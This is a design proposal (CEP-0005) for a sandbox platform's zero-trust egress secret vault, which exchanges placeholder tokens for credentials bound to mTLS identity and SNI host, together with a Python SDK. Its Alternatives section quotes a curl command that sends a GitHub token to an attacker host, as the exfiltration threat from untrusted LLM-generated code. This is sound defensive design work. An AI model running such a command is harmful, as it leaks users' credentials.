

# CEP-0005: Zero-Trust Egress Secret Injection (`cbxref_` mTLS Exchange) & Python SDK `v0.1.0`

| Field | Value |
| :--- | :--- |
| **CEP Number** | `0005` |
| **Status** | `implementable` (`alpha`) |
| **Owning Area** | `egress` / `sdk` |
| **Authors** | @xfgong |
| **Created** | 2026-11-10 |
| **Last Updated** | 2026-11-10 |

<!-- toc -->
- [Release Signoff Checklist](#release-signoff-checklist)
- [Summary](#summary)
- [Motivation](#motivation)
  - [Goals](#goals)
  - [Non-Goals](#non-goals)
- [Proposal](#proposal)
  - [User Stories](#user-stories)
  - [Notes / Constraints / Caveats](#notes--constraints--caveats)
  - [Risks and Mitigations](#risks-and-mitigations)
- [Design Details](#design-details)
  - [API / CRD / Wire Changes](#api--crd--wire-changes)
  - [Architecture & State Machine](#architecture--state-machine)
  - [Dual-Runtime Behavior (K8s Kata vs. Local Docker)](#dual-runtime-behavior-k8s-kata-vs-local-docker)
  - [Test Plan](#test-plan)
  - [Graduation Criteria](#graduation-criteria)
  - [Upgrade / Downgrade Strategy](#upgrade--downgrade-strategy)
- [Production Readiness Review Questionnaire (PRR)](#production-readiness-review-questionnaire-prr)
- [Implementation History](#implementation-history)
- [Drawbacks](#drawbacks)
- [Alternatives](#alternatives)
<!-- /toc -->

---

## Release Signoff Checklist

- [x] Enhancement scope, Goals, and Non-Goals are agreed upon (`provisional` -> `implementable`)
- [x] API / CRD (`pod.cubeplex.ai/v1alpha1`) and E2B-superset OpenAPI changes are specified
- [x] Dual-runtime behavior (Kubernetes Kata + CSI Block AND Local Docker Loopback) is defined
- [x] Security boundary (MicroVM isolation, UID/GID privilege separation, Egress secret safety) is reviewed
- [x] Test plan includes unit tests (`cargo test` / `go test`) and real invariant E2E tests
- [x] Production Readiness Review (PRR) section is complete

---

## Summary

CEP-0005 implements CubePod's built-in Zero-Trust Egress & Secret Vault (`pkg/egress`) and completes the full-featured `cubepod` Python SDK (`sdks/python/cubepod`). `pkg/egress` provides an in-memory ECDSA P-256 CA and per-sandbox mTLS client certificate minter (`CN = <sandboxID>`), host wildcard allow/deny evaluation, and the `cbxref_<32-char-base32>` secret placeholder vault and exchange evaluator (enforcing sandbox identity, SNI host binding, and allowed HTTP header names). `sdks/python/cubepod` provides the complete async-first client (`AsyncCubePod`) covering lifecycle, foreground/background commands with `cursor` logs, file read/write, `tar.gz` skill `archive_sync`, panel endpoint generation, `reset_rootfs`, `fork`, and Egress secret bindings.

---

## Motivation

Real external API credentials (such as `GITHUB_TOKEN`, `OPENAI_API_KEY`, or internal service tokens) must never enter the untrusted sandbox environment. By minting opaque `cbxref_` placeholders and swapping them at the egress boundary only when the sandbox's mTLS identity and destination TLS SNI host match the secret's binding policy, CubePod eliminates secret exfiltration while remaining 100% compatible with CubePlex's `:8443` mTLS exchange architecture.

### Goals

- Implement `pkg/egress`:
  1. **Per-Sandbox mTLS Certificate Minter (`cert.go`)**: Generates a root CA and mints short-lived per-sandbox client certificates (`Subject.CommonName = sandboxID`), plus verifies client certificates to extract `sandboxID`.
  2. **Placeholder Generator & Secret Exchange (`vault.go`)**: Mints `cbxref_<32-char-base32>` placeholders bound to `(sandboxID, envName, secretValue, allowedHosts, allowedHeaders)`, and evaluates `Exchange(sandboxID, placeholder, sniHost, headerName) (secretValue, error)` with fail-closed validation.
  3. **Host Policy Matcher (`policy.go`)**: Evaluates `NetworkPolicySpec` (`DefaultAction: Allow|Deny`, exact and `*.domain.com` wildcard matching).
- Complete `sdks/python/cubepod`:
  1. Full support for `create` (with `volume_key`, `network_policy`, `secret_bindings`), `connect`, `pause`, `reset_rootfs`, `fork`, `renew_timeout`, `acquire_lease`, `execute`, `start_command`, `poll_command`, `kill_command`, `write_file`, `read_file`, `archive_sync` (packing a dict of files into `tar.gz` in memory and uploading in one call), and `get_panel_endpoint`.
  2. Comprehensive unit tests (`sdks/python/tests/test_sdk.py`) using `httpx.MockTransport`.

### Non-Goals

- Supporting plaintext HTTP secret substitution (HTTPS SNI is mandatory; plaintext requests always fail closed).

---

## Proposal

### User Stories

#### Story 1: Fail-Closed Secret Exchange Bound to Sandbox Identity and TLS SNI
As a CubePlex security administrator, if agent code inside `cpod-1` reads `GITHUB_TOKEN=cbxref_ABC...` and tries to send it to `evil.com` (or if `cpod-2` steals the placeholder and sends it to `api.github.com`), `pkg/egress` rejects the swap (`ErrHostNotAllowed` or `ErrSandboxMismatch`) and never reveals the secret.

#### Story 2: Single-Call `archive_sync` in Python SDK for CubePlex Skills
As CubePlex's `LazySandbox`, calling `await client.archive_sync(sandbox_id, files={"/workspace/.skills/demo/SKILL.md": b"..."}, dest="/workspace")` packs an in-memory `tar.gz` and syncs all skill files in a single HTTP request.

### Risks and Mitigations

| Risk | Impact | Likelihood | Mitigation |
| :--- | :--- | :--- | :--- |
| Wildcard host rule `*.github.com` accidentally matches `evilgithub.com` | High | Low | Enforce strict dot-boundary matching (`strings.HasSuffix(host, ".github.com")`). |

---

## Design Details

### API / CRD / Wire Changes

In `pkg/egress`:
- `NewCA() (*CA, error)` & `ca.MintSandboxCert(sandboxID string, ttl time.Duration) (certPEM, keyPEM []byte, err error)`
- `ca.VerifySandboxCert(certPEM []byte) (sandboxID string, err error)`
- `NewVault() *Vault`
- `vault.BindSecret(sandboxID, envName, rawSecret string, allowedHosts, allowedHeaders []string) (placeholder string, err error)`
- `vault.Exchange(sandboxID, placeholder, sniHost, headerName string) (string, error)`
- `MatchHost(host string, pattern string) bool` & `CheckEgressAllowed(policy v1alpha1.NetworkPolicySpec, host string) bool`

### Architecture & State Machine

### Dual-Runtime Behavior (K8s Kata vs. Local Docker)

`pkg/egress.CA` and `pkg/egress.Vault` work identically in-cluster and in local mode.

### Test Plan

- **Go Unit Tests (`go test -v -race ./pkg/egress/...`)**:
  - Mint per-sandbox ECDSA mTLS cert, verify it against the CA, and assert `sandboxID` is extracted from `CN`.
  - Verify `BindSecret` generates a valid `cbxref_` token and `Exchange` succeeds only when `sandboxID`, `sniHost` (including `*.github.com` wildcard), and `headerName` (case-insensitive) match.
  - Verify `Exchange` fails closed on wrong `sandboxID`, wrong `sniHost`, disallowed `headerName`, or revoked sandbox secrets.
- **Python SDK Tests (`pytest` / `unittest` in `sdks/python/tests/`)**:
  - Test `AsyncCubePod` lifecycle, `execute`, background command cursor polling, `archive_sync` `tar.gz` creation, `reset_rootfs`, `fork`, and `get_panel_endpoint`.

### Graduation Criteria

- **Alpha (`v0.1`)**: All `pkg/egress` Go tests and `sdks/python` tests pass.

### Upgrade / Downgrade Strategy

In-memory CA and vault bindings are ephemeral per sandbox lifecycle; rotating a secret in the vault immediately updates subsequent `Exchange` calls without restarting the sandbox.

---

## Production Readiness Review Questionnaire (PRR)

### Feature Enablement and Rollback
Controlled via `PodTemplateSpec.Egress.Enabled`.

### Monitoring Requirements
Audit logs on every secret exchange denial.

### Dependencies
Go `crypto/ecdsa`, `crypto/x509`, `crypto/tls`.

### Troubleshooting
`Exchange` returns typed sentinel errors (`ErrUnknownPlaceholder`, `ErrSandboxMismatch`, `ErrHostNotAllowed`, `ErrHeaderNotAllowed`).

---

## Implementation History

- `2026-11-10`: CEP-0005 drafted and marked `implementable`.

---

## Drawbacks

- Requires sandbox HTTP clients to trust the injected MITM CA (`SSL_CERT_FILE`, `REQUESTS_CA_BUNDLE`, `NODE_EXTRA_CA_CERTS`).

---

## Alternatives

### Alternative 1: Injecting Real Secrets into Sandbox Environment Variables
- **Description**: Pass `GITHUB_TOKEN=ghp_...` directly into container env.
- **Reason for Rejection**: Untrusted LLM-generated code can run `env` or `curl https://attacker.com -d "$GITHUB_TOKEN"` and exfiltrate user credentials immediately.
